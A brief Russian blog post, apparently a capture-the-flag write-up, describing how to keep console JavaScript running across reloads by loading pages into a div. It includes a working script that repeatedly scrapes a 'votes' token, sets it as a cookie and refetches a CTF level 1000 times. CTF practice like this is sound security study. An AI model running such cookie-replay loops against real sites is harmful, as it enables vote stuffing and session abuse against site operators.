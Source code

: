 ```yaml
---
title: "Abobus"
date: 2020-01-27 17:42:17
draft: false
---
```


Бывает у нас иногда ситуации, когда нужно выполнить javascript на странице из консоли, обновить страницу и продолжить выполнять скрипт. Но вот незадача, при обновлении страницы скрипт останавливается. Решение этой проблемы следующее: страницу можно поместить в элемент, например, div и загружать обновленную страницу в него!
POW:
for(i = 0; i < 1000; i++) {
s = document.querySelector("div").textContent;
s = s.substr(s.search("votes=\\d+:\\w+"));
s = s.substr(0, s.search("\n"));
console.log(s);
document.cookie = s;
s = await fetch("http://kslweb1.spb.ctf.su/second/level23/");
document.querySelector("div").innerHTML = await s.text();
}
